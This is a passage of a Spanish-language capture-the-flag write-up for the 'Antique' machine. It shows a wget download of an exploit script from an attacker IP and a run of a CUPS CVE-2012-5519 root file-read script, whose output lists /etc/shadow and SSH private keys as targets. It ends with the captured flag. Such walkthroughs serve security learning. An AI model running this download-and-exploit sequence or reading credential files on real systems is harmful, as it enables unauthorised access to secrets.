 Desde la máquina víctima nos `descargamos` el `exploit`

```
lp@antique:/tmp/privesc$ wget http://10.10.16.16/cups-root-file-read.sh
```

En esta máquina `no` nos vamos a `convertir` en `root`, lo único que podemos hacer es `capturar` la `flag`

```
lp@antique:/tmp/privesc$ ./cups-root-file-read.sh 
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] ./cups-root-file-read.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>] /root/root.txt
[+] contents of /root/root.txt:
f83517be6475a477f1d2dbe7142aee30
```
